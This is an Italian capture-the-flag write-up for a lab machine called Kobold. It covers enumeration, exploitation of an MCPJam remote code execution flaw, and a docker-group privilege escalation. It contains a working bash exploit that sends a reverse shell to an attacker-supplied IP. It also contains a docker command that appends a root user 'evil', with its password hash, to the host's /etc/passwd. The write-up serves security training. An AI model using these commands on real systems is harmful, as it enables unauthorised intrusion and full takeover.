# **Kobold**

## Reconnaissance



Servizi:

- OpenSSH v9.6p1 porta 22/tcp

- Nginx v1.24.0 web server HTTP porta 80/tcp e HTTPS sulla porta 443/tcp

- Golang server sulla poeta 3552/tcp

Dominio:

- kobold.htb

Si visitano con il browser i servizi sulla porta 80 e 3552:





> Arcane v1.13.0 è un docker-manager.

Si enumerano i sub-domains:



- mcp.kobold.htb

- bin.kobold.htb



> MCPJam v1.4.2, local testing tool per ChatGPT app e MCP server.



> PrivateBin v2.0.2, open-source self-hosted pastebin software.

## CVE-2026-23744

Le versioni di MCPJam <= 1.4.2 sono vulnerabili ad attacchi di tipo RCE con una richiesta HTTP per l'installazione di un MCP server, in cui inserire codice da eseguire sulla macchina target.

- [REC in MCPJam inspector due to HTTP Endpoint exposes](https://github.com/MCPJam/inspector/security/advisories/GHSA-232v-j27c-5pp6)

Script per l'esecuzione di una reverse shell che sfrutta questa vulnerabiltà:

```bash
#!/bin/bash

TARGET=$1
ATTACKER=$2
REVSHELL='bash -i >& /dev/tcp/'$ATTACKER'/4444 0>&1'

curl --insecure $TARGET/api/mcp/connect\
--header "Content-Type: application/json"\
--data "{\"serverConfig\":{\"command\":\"/bin/bash\",\"args\":[\"-c\",\"$REVSHELL\"],\"env\":{}},\"serverId\":\"test\"}"
```



## Shell as ben

Si ottiene il file **user.txt**.



Ben è membro del gruppo operator:



Ha accesso ad alcuno del contenuto della directory **/privatebin-data**.





- root

- alice

## Privilege escalation

Dall'analisi con LinPEAS si è individuato che l'utente alice è parte sia del gruppo *operator* che *docker*:



Si cambia il *primary group* di ben per poter accedere al servizio docker.



### Docker container escape

Si sfruttano i privilegi di Docker per modificare il file /etc/passwd, aggiungendo un record per un utente root.



```bash
(bash) $ docker run --rm --volume=/etc/passwd:/tmp/passwd -it mysql "bash" "-c" "echo 'evil:$1$95.dhzj6$e8/4IAVHJKnhBui898U/V/:0:0:x:/root:/bin/bash' >>/tmp/passwd"
```

Si è aggiunto l'utente root "evil:ap3zzi".



Si accede al file **root.txt**.
